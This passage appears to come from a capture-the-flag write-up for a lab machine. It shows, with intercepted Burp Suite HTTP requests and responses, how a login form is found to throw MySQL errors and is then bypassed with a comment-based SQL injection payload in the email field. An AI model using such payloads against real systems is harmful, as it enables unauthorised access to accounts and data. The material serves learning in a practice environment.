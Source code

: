 ### SQL Injection - First Method

Firstly, I used Burp Suite to intercept the login request.

```http
POST /login.php HTTP/1.1
Host: admin-portal.europacorp.htb
Cookie: PHPSESSID=13recun5a2dqqh7i5g2e75vq54
Content-Length: 41
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://admin-portal.europacorp.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://admin-portal.europacorp.htb/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

email=admin%40europacorp.htb&password=password
```

Then I sent the request to Burp’s Repeater and tried some SQL syntax.

Upon using `'`, I realized that the server returned an SQL error.

```
HTTP Request
...
email=admin%40europacorp.htb'&password=password

HTTP Response
...
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '5f4dcc3b5aa765d61d8327deb882cf99'' at line 1
```

This prompted me to try some basic SQL injection techniques and `’-- -` or `’;-- -` worked.

```http
HTTP Request
...
email=admin%40europacorp.htb'--+-&password=password

HTTP Response
HTTP/1.1 302 Found
Date: Mon, 09 May 2022 02:22:35 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Location: https://admin-portal.europacorp.htb/dashboard.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```
